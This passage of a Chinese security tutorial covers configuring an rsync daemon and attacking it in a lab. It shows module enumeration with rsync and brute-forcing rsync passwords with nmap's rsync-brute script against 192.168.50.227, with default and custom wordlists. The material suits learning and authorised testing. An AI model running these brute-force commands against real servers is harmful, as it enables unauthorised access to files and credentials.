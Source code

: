 <div align=center><img src="https://user-images.githubusercontent.com/84888757/175121174-9d1b2d64-97e6-46d9-a4d1-bf8f122564b4.png" /></div>

其用户认证文件内容为明文保存，但该文件权限必须设置为600，普通用户并无读取权限。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175121228-0ac60700-c901-4109-9792-539827b5faa3.png" /></div>

启动rsync服务：
```
rsync --no-detach --daemon --config /etc/rsyncd.conf
```

若认证文件权限设置错误，客户端用户即使口令输入正确，也会出现认证失败的提示信息。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175121264-c87a7571-f321-437e-a70b-604d2675f6c9.png" /></div>

# 0x03 基本利用方式
rsync 命令的语法如下：
```
rsync [options] [source] [target]
```
其中：
- options 表示各种可选参数；
- source 表示原文件或者原目录，可以是本地的，也可以是远程的；
- target 表示目标目录，可以是本地的，也可以是远程的。

## 3.1 rsync 未授权访问漏洞
参考这篇：[rsync未授权访问漏洞](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/rsync/rsync%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.md)


## 3.2 rsync 弱口令访问漏洞
### 3.2.1 获取模块信息

使用`rsync -avz user@192.168.50.227::`获取靶机rsync模块信息，后续暴破需要指定`module`。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175129886-e333229a-a653-4ed2-ab58-d4a4aa107db5.png" /></div>

### 3.2.2 暴破rsync弱口令
nmap中针对rsync口令暴力破解的脚本rsync-brute :https://svn.nmap.org/nmap/scripts/rsync-brute.nse。
```
# 默认的用户名字典、密码字典，自定义要暴破的rsync模块
nmap -p 873 -v --script rsync-brute --script-args 'rsync-brute.module=src' 192.168.50.227

# 自定义用户名字典、密码字典、暴破的rsync模块
nmap -sV --script rsync-brute --script-args 'userdb=/tmp/username.txt,passdb=/tmp/passwd.txt,rsync-brute.module=src' -p 873 192.168.50.227
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175122937-88d3963a-cda6-424b-af7e-b49971f224ce.png" /></div>
